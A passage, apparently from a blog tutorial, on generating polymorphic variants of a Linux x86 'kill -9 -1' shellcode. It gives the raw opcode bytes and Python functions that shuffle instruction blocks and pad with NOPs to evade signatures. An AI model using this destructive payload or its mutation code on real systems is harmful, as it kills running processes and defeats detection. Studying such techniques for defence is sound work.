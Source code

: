 * swap system call parameter positions
* add some NOPs
* perform NOP equivalent operations
* use math to calculate values to fill EAX, EBX and ECX to reach the desired
  value with some more clock cycles

### Kill shake

Kill shellcode can be divided in three atomic patterns that can be swapped each other:

* XOR-ing EBX and decrementing it
* MOV AL to 0x9
* MOV CL to 0x25

Given this, the following python snippet realize the swapping strategy for our kill -9 -1 shellcode:

{%highlight python%}
def kill_shuffle():
    blk=["\\x31\\xdb\\x4b", "\\x31\\xc9\\xb1\\x25", "\\x31\\xc0\\xb0\\x09"];
    newblk=blk[:];
    shuffle(newblk);

    return "".join(newblk)+"\\xcd\\x80";
{%endhighlight%}

As you can see in the following picture, some polymorphic variant of the
original shellcode can be easily generated, without penalty on lenght:

![Kill Swap variations]({{site.url}}/assets/images/kill_swap_variations.png)

### NOP dope

Another transformation strategy can be adding NOPs. However, in order to have
some more magic, I'll mix the NOPs strategy with shuffling.

I'll add a number of NOPs that let our shellcode to stay under 16 bytes in
lenght.

{%highlight python%}
def kill_nop_dope():
    blk=["\\x31\\xdb\\x4b", "\\x31\\xc9\\xb1\\x25", "\\x31\\xc0\\xb0\\x09"];
    n = randint(0, 3); # our shellcode is 13 byte lenght, we can expand it no more than 3 bytes
    nop = ["\\x90"]*n
    blk.extend(nop)

    newblk=blk[:];
    shuffle(newblk);

    return "".join(newblk)+"\\xcd\\x80";

{%endhighlight%}

![Kill NOP variations]({{site.url}}/assets/images/kill_nop_variations.png)

### Some quick improvements
